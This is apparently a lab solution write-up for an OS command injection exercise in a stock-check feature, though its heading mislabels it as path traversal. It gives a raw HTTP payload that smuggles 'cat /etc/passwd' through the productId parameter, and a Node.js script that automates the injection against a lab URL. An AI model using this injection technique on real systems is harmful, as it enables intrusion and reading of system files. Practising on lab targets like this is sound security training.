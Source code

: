 # 1 - File path traversal, simple case

### Notes

The product stock check feature passed improperly sanitized data to an operating system command.

```http
POST /product/stock HTTP/1.1

productId=1%26cat+/etc/passwd%26%23&storeId=1
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  const command = 'cat /etc/passwd'

  console.log(`Executing ${command}...`)
  const res = await axios.post(
    `${labUrl}/product/stock`,
    // Command something like: 'stockChecker.pl 123 &<command>&#456'
    `productId=123%26${command}%26%23&storeId=456`
  )
  console.log(res.data)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
